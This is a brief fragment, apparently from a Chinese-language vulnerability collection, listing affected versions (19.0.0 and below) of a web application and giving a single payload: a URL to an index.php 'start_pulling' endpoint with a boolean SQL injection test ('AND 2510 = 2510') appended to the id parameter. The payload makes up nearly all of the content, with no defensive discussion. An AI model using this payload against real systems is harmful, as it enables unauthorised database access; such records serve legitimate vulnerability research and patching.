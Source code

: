 影響版本
--------

19.0.0及以下

Payload
-------

    http://www.0-sec.org/cbas/index.php?m=servers&a=start_pulling&id=1 AND 2510 = 2510